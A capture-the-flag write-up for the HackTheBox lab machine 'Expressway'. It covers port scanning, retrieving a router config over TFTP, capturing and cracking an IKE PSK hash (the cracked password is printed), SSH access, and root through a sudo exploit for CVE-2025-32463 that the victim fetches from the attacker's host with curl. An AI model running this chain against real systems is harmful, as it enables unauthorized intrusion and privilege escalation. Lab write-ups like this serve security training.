# Expressway — Write-Up

| Field | Detail |
|---|---|
| **Machine** | [Expressway](https://app.hackthebox.com/machines/Expressway) |
| **Platform** | [HackTheBox](https://app.hackthebox.com/) |
| **Operating System** | Linux (Debian) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### TCP Port Enumeration

A full Nmap TCP scan is launched to discover active services:

```bash
nmap -p- -sCV -vvv -T5 10.129.238.52 -oN Expressway
```



The result is striking: **only port 22 (SSH) is open** on TCP. This suggests the main attack surface may be on UDP.

### UDP Port Enumeration

A UDP scan of the top 20 most common ports is launched:

```bash
nmap -sU --top-port=20 10.129.238.52
```



Two interesting UDP ports are identified:
- **Port 69/udp** — TFTP (open|filtered)
- **Port 500/udp** — ISAKMP (open) — IKE negotiation protocol for IPsec VPNs

### TFTP Enumeration

The TFTP service is confirmed and Nmap's enumeration script is launched to list accessible files:

```bash
nmap -sU 10.129.238.52 -p 69 --script=tftp-enum.nse
```



The script finds the file **`ciscortr.cfg`**, a Cisco router configuration file.

### Downloading the Configuration File

A TFTP connection is established and the file is downloaded:

```bash
tftp 10.129.238.52
get ciscortr.cfg
quit
```



### Configuration File Analysis

The downloaded file is read:

```bash
cat ciscortr.cfg
```



The file reveals:
- **IOS Version:** 12.3
- **Hostname:** expressway
- **`enable password *****`** — censored enable password
- **`username ike password *****`** — user **ike** with censored password

The username `ike` and hostname `expressway` are direct hints. The presence of ISAKMP/IKE on UDP port 500 also aligns with the username.

---

## Exploitation — IKE Aggressive Mode PSK Cracking

### What is IKE and Why is it Vulnerable?

**IKE (Internet Key Exchange)** is the protocol used to negotiate IPsec VPN connections. It has two modes:
- **Main Mode:** more secure, does not expose the client's identity
- **Aggressive Mode:** faster but exposes the PSK (Pre-Shared Key) hash during the exchange, enabling offline dictionary attacks

### IKE Main Mode Verification

The IKE service is confirmed to be responding:

```bash
ike-scan -M 10.129.238.52
```



The server responds with a **Main Mode Handshake** and negotiates:
- **Encryption:** 3DES
- **Hash:** SHA1
- **Group:** modp1024
- **Auth:** PSK
- **XAuth** enabled (extended authentication)

### PSK Hash Capture in Aggressive Mode

Aggressive mode is forced by specifying the identity `ike@expressway.htb` (deduced from the configuration file) and the captured hash is saved:

```bash
ike-scan -M -A --pskcrack=k.hash 10.129.238.52
```



The server responds with the Aggressive Mode handshake and exposes:
- **ID:** `ike@expressway.htb`
- **Hash (20 bytes):** captured in `k.hash`

### Viewing the Captured Hash

```bash
ls
cat k.hash
```



### Hash Cracking with Hashcat

The hash type is automatically identified as **IKE-PSK SHA1 (mode 5400)** and attacked with the rockyou wordlist:

```bash
hashcat k.hash /home/kali/Escritorio/rockyou.txt
```



Password found: **`freakingrockstarontheroad`**

---

## Initial Access — SSH with IKE Credentials

With user `ike` and the cracked password, SSH access is established:

```bash
ssh ike@10.129.238.52
```



### User Flag

```bash
whoami
# ike
ls
cat user.txt
```

---

## Privilege Escalation — CVE-2025-32463 (sudo EoP)

### Sudo Permissions Enumeration

Sudo privileges for `ike` are checked:

```bash
sudo -l
```



Sudo requires a password and there are no NOPASSWD entries. However, the installed sudo version is checked:

```bash
sudo -V
```

### Exploit Transfer and Execution

On the attacker machine the repository is cloned and an HTTP server is started:

```bash
git clone https://github.com/kh4sh3i/CVE-2025-32463.git
cd CVE-2025-32463
python3 -m http.server 8020
```

From the victim machine the exploit is downloaded:

```bash
cd /tmp
curl http://10.10.14.137:8020/exploit.sh -LO
```



The version is **1.9.17**, vulnerable to **CVE-2025-32463**.

### What is CVE-2025-32463?

**CVE-2025-32463** is a privilege escalation vulnerability in sudo versions up to 1.9.17. It allows an unprivileged user to obtain a root shell by exploiting malicious NSS library loading through a temporary stage directory. The exploit was published by Stratascale Cyber Research Unit.

### Exploit Analysis

The exploit script contents are reviewed:

```bash
cat exploit.sh
```



The exploit:
1. Creates a temporary staging directory at `/tmp/sudowoot.stage.XXXXXX`
2. Compiles a malicious `.so` library that calls `setreuid(0,0)` and spawns `/bin/bash`
3. Sets up a fake `nsswitch.conf` to load the library
4. Runs `sudo -R woot woot` to trigger the library load with root privileges


Execution permissions are granted and the exploit is run:

```bash
chmod +x exploit.sh
./exploit.sh
```



```
woot!
root@expressway:/#
```

### Root Flag

```bash
cd /root
ls
cat root.txt
```



---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | TCP + UDP Port Scan | `nmap` |
| Enumeration | TFTP file enumeration | `nmap --script=tftp-enum` |
| Information gathering | Cisco config file download | `tftp` |
| Exploitation | IKE Aggressive Mode PSK hash capture | `ike-scan` |
| Cracking | Dictionary attack on IKE-PSK hash | `hashcat` |
| Initial access | SSH with cracked credentials | `ssh` |
| Privilege escalation | sudo EoP via NSS library hijack (CVE-2025-32463) | `exploit.sh` |
